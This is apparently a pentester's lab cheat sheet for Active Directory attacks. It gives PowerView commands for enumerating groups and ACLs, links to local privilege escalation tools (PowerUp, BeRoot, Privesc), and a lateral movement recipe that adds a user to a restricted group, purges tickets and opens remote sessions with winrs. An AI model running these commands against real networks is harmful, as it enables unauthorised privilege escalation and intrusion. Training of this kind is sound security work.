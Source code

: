 ### Current user

```Powershell
Get-DomainGroup -MemberIdentity 'studentuser15'

# For each 
Get-DomainGroup -Identity <group name>

# For user + for each group/ou of user
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "<user/group/ou>"}
```

## Create map

1. Create layout of forest, domains, computers and all the trust relationships
2. List OU's with computers
3. List OU's with groups and users


## Local privesc

[PowerUp](https://github.com/BC-SECURITY/Empire/blob/master/empire/server/data/module_source/privesc/PowerUp.ps1)
- Docs: https://powersploit.readthedocs.io/en/latest/Privesc/
```Powershell
Invoke-AllChecks
```

[BeRoot](https://github.com/AlessandroZ/BeRoot)
- Docs: https://github.com/AlessandroZ/BeRoot/tree/master/Windows
```Powershell
beRoot.exe
```

- [Privesc](https://github.com/enjoiz/Privesc)
```Powershell
Invoke-Privesc
```

## Lateral movement

### Restricted group

Requirement: permission to add object to restricted group

```Powershell
# Add to group
Add-DomainGroupMember -Identity <restricted_group> -Members <user> -Verbose

# Log off & log on
Get-DomainGroup -MemberIdentity <user> | select distinguishedname

# Clear tickets
klist purge

# Connect to server
winrs -r:<server> cmd

# or

$srv = New-PSSession <server>
Enter-PSSession $srv
```
